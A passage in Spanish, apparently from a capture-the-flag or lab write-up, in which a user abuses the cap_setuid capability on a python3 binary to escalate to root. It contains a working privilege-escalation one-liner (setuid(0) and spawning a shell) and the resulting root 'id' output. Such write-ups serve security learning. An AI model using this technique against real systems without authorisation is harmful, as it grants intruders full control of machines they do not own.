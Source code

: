 Al verificar las capacidades del archivo `python3`, se observa que tiene la capacidad `cap_setuid=ep` activada, lo que indica que puede cambiar el ID de usuario efectivo a `root`.

Según [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities), esta capacidad puede ser aprovechada para escalar privilegios.

```terminal
patricio@kali:~$ .ssh/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# script /dev/null -c bash
Script started, output log file is '/dev/null'.

root@kali:~# id
uid=0(root) gid=1001(patricio) groups=1001(patricio),100(users)
```
